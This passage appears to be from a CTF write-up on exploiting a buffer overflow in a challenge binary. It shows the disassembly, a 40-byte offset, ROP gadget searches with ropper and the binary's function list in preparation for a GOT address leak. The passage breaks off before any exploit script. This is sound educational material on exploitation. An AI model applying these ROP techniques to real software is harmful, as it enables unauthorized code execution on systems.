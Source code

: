 ```bash
   0x00000000004006bc <+61>:    mov    edx,0x1f4 #buffersize of 500
   0x00000000004006c1 <+66>:    mov    rsi,rax   #variable
   0x00000000004006c4 <+69>:    mov    edi,0x0   #0
   0x00000000004006c9 <+74>:    call   0x400550 <read@plt>
```

Result from above indicated there was buffer overflow. So first thing was to find the `offset`. For that, you can visit my first post of `Exploitation&Pwning` series [here](https://gr4n173.github.io/hackpackctf) to know detail about it.

### Overflow the buffer
After finding offset which was`40` bytes. Now I can redirect to anywhere I want. Only I need to do now is to `pop` one of the argument; sequence of arguments in `64 bit` are as `rdi;rsi;rdx;rcx;r8;r9`. Then searched the gadgets related to the poping an arguments as 

```bash
gef➤  ropper --search "pop r?i"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop r?i

[INFO] File: /home/gr4n173/climb
0x0000000000400743: pop rdi; ret; 
0x0000000000400741: pop rsi; pop r15; ret;
```
Up to here I overflowed the `buffer` and `pop a argument` so that I can call to any address I want.

Since `binary` had `writable got` address due to the partial protection of `RelRO`  I can point to that address and leak. For that I used the functions which was available in the binary file.

```bash
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x00000000004004e8  _init
0x0000000000400510  puts@plt
0x0000000000400520  setbuf@plt
0x0000000000400530  system@plt
0x0000000000400540  printf@plt
0x0000000000400550  read@plt
0x0000000000400560  _start
0x0000000000400590  _dl_relocate_static_pie
0x00000000004005a0  deregister_tm_clones
0x00000000004005d0  register_tm_clones
0x0000000000400610  __do_global_dtors_aux
0x0000000000400640  frame_dummy
0x0000000000400647  _init_
0x0000000000400650  _glibc_
0x0000000000400659  _entry1_
0x0000000000400664  call_me
0x000000000040067f  main
0x00000000004006e0  __libc_csu_init
0x0000000000400750  __libc_csu_fini
0x0000000000400754  _fini
```
Then searched for `got address` .

